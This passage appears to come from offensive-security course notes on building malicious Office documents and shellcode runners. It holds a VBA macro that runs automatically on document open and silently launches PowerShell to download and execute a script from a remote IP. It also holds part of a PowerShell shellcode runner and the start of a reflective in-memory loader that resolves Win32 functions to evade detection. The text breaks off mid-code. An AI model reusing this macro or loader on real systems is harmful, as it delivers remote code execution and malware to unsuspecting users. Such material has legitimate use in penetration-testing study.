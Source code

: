 ```
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

VBA code
```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Result
![alt text](image-5.png)

## Reflection Shellcode Runner in Powershell
Powershell code
```
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
```